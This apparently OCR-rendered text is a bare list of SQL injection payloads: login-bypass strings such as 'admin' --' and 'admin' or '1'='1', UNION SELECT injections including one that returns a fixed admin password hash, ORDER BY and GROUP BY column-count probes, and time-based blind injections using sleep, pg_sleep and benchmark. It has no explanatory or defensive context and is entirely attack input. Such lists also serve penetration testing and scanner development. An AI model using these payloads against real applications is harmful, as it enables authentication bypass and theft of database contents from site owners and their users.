 ```
\
\\
`
``
'=0--+
%00
;%00
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
1*56
1′) and '1′='1–
1 AND (SELECT * FROM Users) = 1    
1-false
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
1 or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
1' ORDER BY 1--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1 or pg_sleep(5)--
1) or pg_sleep(5)--
1)) or pg_sleep(5)--
1 or sleep(5)#
1) or sleep(5)#
1)) or sleep(5)#
1-true
-1' UNION SELECT 1,2,3--+
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
-2
%2c(select%20*%20from%20(select(sleep(10)))a)
+
admin" #
admin" --
admin"/*
admin' #
admin' --
admin'/*
admin' and substring(password/text(),1,1)='7
admin' #	login bypass
admin' --	login bypass
admin'/*	login bypass
admin" or "1"="1
admin" or "1"="1"#
admin" or "1"="1"--
admin" or "1"="1"/*
admin" or 1=1
admin" or 1=1#
admin" or 1=1--
admin" or 1=1/*
admin") or "1"="1
admin") or "1"="1"#
admin") or "1"="1"--
admin") or "1"="1"/*
admin") or ("1"="1
admin") or ("1"="1"#
admin") or ("1"="1"--
admin") or ("1"="1"/*
admin' or '1'='1
```